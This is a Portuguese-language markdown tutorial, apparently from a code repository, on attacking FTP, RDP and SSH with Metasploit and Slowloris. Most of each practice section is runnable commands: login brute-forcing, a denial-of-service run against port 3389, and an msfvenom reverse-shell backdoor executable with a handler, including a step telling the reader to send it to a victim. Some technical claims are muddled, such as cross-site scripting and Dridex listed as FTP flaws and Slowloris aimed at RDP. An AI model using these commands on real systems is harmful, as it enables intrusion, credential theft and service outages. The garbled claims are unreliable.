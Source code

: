 # Ferramentas de Cibersegurança: Conceitos e Práticas

Este documento descreve ferramentas e técnicas para exploração de vulnerabilidades em sistemas, com foco em ferramentas práticas como o Metasploit, ataques DoS e backdoors, além de métodos de prevenção.

---

## 1. Explorando Falhas no FTP

### Conceito
FTP (File Transfer Protocol) é um dos métodos mais antigos de compartilhamento de dados. Apesar de amplamente usado, apresenta várias vulnerabilidades, como:

- **Autenticação anônima:** permite acesso sem credenciais.
- **Directory traversal attack:** exploração de diretórios não autorizados.
- **Cross-site scripting:** injeção de scripts maliciosos.
- **Dridex:** malware direcionado ao protocolo FTP.

### Ferramenta: Metasploit
O Metasploit é uma das plataformas mais utilizadas para exploração de vulnerabilidades. Seus principais componentes incluem:

- **msfconsole:** interface de linha de comando.
- **msfweb:** interface gráfica acessível via navegador.
- **msfpayload:** geração e personalização de payloads.
- **msfcli:** automação de invasões.
- **msflogdump:** exibição de logs de invasão.

### Prática
Para explorar vulnerabilidades no FTP usando o Metasploit:
1. Identifique o IP do alvo e as portas abertas.
2. Use o módulo `auxiliary/scanner/ftp/anonymous` para verificar autenticação anônima.
3. Realize ataques de brute force com o módulo `auxiliary/scanner/ftp/ftp_login`.

```bash
msfconsole
use auxiliary/scanner/ftp/anonymous
set RHOSTS <IP_DO_ALVO>
run
```

---

## 2. Ataque DoS no RDP

### Conceito
O Remote Desktop Protocol (RDP) é usado para acessar sistemas remotamente. Ataques de negação de serviço (DoS) podem explorar fraquezas no protocolo, como força bruta ou exploração de pacotes.

### Prevenção
Medidas para proteger o RDP incluem:
- Implementação de autenticação multifator.
- Configuração de políticas de bloqueio após tentativas de login fracassadas.
- Uso de firewalls para limitar o acesso.

### Prática
Simulação de ataque DoS em RDP usando scripts:
1. Identifique a porta 3389.
2. Use ferramentas como Slowloris para sobrecarregar o serviço RDP.

```bash
sudo slowloris <IP_DO_ALVO> -p 3389 -s 200
```

---

## 3. Explorando Falhas no SSH

### Conceito
SSH (Secure Shell) é usado para comunicação remota e geralmente opera na porta 22. Vulnerabilidades podem ser exploradas via ataques de força bruta.

### Prática com Metasploit
1. Configure uma lista de usuários e senhas.
2. Use o módulo `auxiliary/scanner/ssh/ssh_login` para encontrar credenciais.

```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <IP_DO_ALVO>
set USER_FILE <ARQUIVO_DE_USUARIOS>
set PASS_FILE <ARQUIVO_DE_SENHAS>
run
```

---

## 4. Adicionando Backdoor em Executáveis

### Conceito
Um backdoor permite acesso não autorizado a um sistema, geralmente mascarado como um arquivo legítimo. Exemplos incluem:
- **Spyware:** monitoramento de atividades.
- **Ransomware:** criptografia de dados para extorsão.

### Prática
1. Crie um payload com o Metasploit:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<SEU_IP> LPORT=4444 -f exe -o backdoor.exe
```

2. Envie o executável para a vítima e configure o handler no Metasploit:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <SEU_IP>
set LPORT 4444
exploit
```

---

## Conclusão

As ferramentas e técnicas descritas acima são amplamente usadas para demonstrações práticas de exploração de vulnerabilidades e conscientização sobre segurança. Recomenda-se o uso em ambientes controlados e com permissão para evitar implicações legais.

---

### Referências
- Documentação do Metasploit: [Metasploit Framework](https://www.metasploit.com/)
- Boas práticas de segurança: [OWASP](https://owasp.org/)

